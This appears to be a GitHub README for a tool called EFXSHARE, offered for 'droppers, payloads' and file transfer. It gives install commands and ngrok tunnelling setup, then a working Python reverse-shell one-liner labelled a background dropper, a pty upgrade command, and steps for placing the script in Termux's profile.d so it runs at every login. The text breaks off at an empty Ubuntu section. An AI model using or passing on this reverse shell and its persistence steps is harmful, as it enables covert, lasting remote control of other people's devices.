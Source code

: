 # EFXSHARE
Sharing quick droppers, payloads and file transfer at high speed
<h1>EFX SHARE SETUP</h1>

<b>Setup in Termux</b>
<pre> wget https://github.com/efxtv/efxshare/raw/main/termux/efxshare;mv efxshare /data/data/com.termux/files/usr/bin/;chmod +x /data/data/com.termux/files/usr/bin/efxshare </pre>
<br />
<b>Stup in Ubuntu/Kali/Debian</b>
<pre> wget https://github.com/efxtv/efxshare/raw/main/others/efxshare;sudo mv efxshare /usr/bin/;sudo chmod +x /usr/bin/efxshare </pre>
<br />
<b>Setup NGROK</b>
Go to https://ngrok.com/
<br />
Login with real email id, do not use temp email. It can reduce the speed and connectivity strength.
<br />
Verify your email addres by logging in to the email.
<br />
Download the file, by clicking on it (do not wget specially for termux). Once you visit the site you have to click on the button as shown below.<br />
<a href="https://youtu.be/zTsnjaCxcMo"><img src="https://raw.githubusercontent.com/efxtv/efxshare/main/ngrok-demo.jpg" alt="EFX TV"></a><br />
<br />
<b>Unzip the downloaded file</b>
<pre>unzip filename.zip</pre>
<br /><br />
Verify the auth tocken. For that you need to wath the video will be shared soon.
<br />
<h2>Bash Dropper file which runs in background</h2>
Copy the text below and save it as run.sh or some other name. Change the ip port as shown in video.
<pre>
export RHOST="192.168.1.37";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' &
</pre>
<br />
Start the listener in your host machine and execute the file run.sh to the terminal. It will start tunning in background. Even if you close the terminal it will keep running. This bash session will be more beautiful if you pace the command in the terminal after getting reverse connection.
<pre>
python -c 'import pty;pty.spawn("/bin/bash")'
</pre>
Want access with boot?
<br /> Drop the file run.sh in the locations:

<br /> For termux
<pre> /data/data/com.termux/files/usr/etc/profile.d </pre>
For Ubuntu and others ****
<pre></pre>

